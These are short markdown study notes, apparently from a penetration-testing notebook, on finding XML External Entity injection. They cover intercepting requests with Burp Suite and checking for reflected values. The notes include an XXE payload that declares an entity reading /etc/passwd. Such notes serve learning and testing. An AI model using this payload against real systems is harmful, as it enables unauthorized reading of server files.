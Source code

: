 
### Identify

We can intercept request with Burp Suite and then see in the request if the data is being sent via XML

We can check in the response if we see any reflected values and if so it should be a good start on where to attempt injection


injecting xml entity for file disclosure
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```


